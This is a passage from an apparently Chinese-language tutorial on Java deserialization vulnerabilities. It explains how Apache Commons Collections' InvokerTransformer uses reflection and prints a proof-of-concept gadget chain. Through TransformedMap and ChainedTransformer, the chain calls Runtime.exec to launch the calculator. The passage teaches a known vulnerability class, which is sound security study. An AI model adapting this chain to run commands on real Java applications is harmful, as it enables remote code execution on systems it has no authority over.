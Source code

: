 ![](Java反序列之从萌新到菜鸟\7.png)

> 这个`transform(Object input)` 中使用Java反射机制调用了input对象的一个方法，而该方法名是实例化`InvokerTransformer`类时传入的`iMethodName`成员变量： 

![img](Java反序列之从萌新到菜鸟\8.png)

也就意味着，我们现在可以完全控制其中的反射部分

![](Java反序列之从萌新到菜鸟\9.png)

然后利用反射机制，动态调用其它类中的方法。通过以下的链式调用，就可以命令执行

```java
public static void main(String[] args) throws Exception{
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{
            String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{ Object.class,
                                                     Object[].class}, new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] {String.class},
                               new Object[]{"calc"})};

    Transformer transformedChain = new ChainedTransformer(transformers);

    Map normalMap = new HashMap();
    normalMap.put("value", "value");

    Map transformedMap = TransformedMap.decorate(normalMap, null, transformedChain);

    Map.Entry entry = (Map.Entry) transformedMap.entrySet().iterator().next();
    entry.setValue("test");
}
```
